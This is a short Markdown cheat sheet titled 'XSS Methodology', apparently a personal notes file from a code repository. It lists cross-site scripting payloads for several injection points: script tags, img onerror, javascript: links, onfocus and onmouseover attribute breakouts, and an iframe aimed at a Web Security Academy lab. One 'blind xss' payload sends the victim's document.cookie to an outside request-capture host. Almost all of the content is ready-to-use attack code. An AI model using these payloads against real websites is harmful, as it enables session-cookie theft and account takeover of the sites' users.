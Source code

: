 # XSS Methodology

## Payload
**Basic**
```html
<script>alert(0)</script>
```

**img**
```html
<img src=x onerror=print()>
```

**href attribute**
```html
href="javascript:alert(1)"
```

**autofocus**
```html
x" onfocus=alert(1) autofocus tabindex=1>
```

**onmouseover**

```html
"onmouseover="alert(1)
```


**blind xss**
[requestBin](https://public.requestbin.com)
```html
><script>document.location='https://enp0qp6rqroqc.x.pipedream.net?c='+document.cookie</script>
```

**iframe**
```html
<iframe src="https://0a9800c3034ba0e181fafc8700b00051.web-security-academy.net/#" onload=this.src+="%3Cimg%20src=x%20onerror=print()%3E"></iframe>

```
## Links
[Ghetto XSS Cheatsheet](https://d3adend.org/xss/ghettoBypass)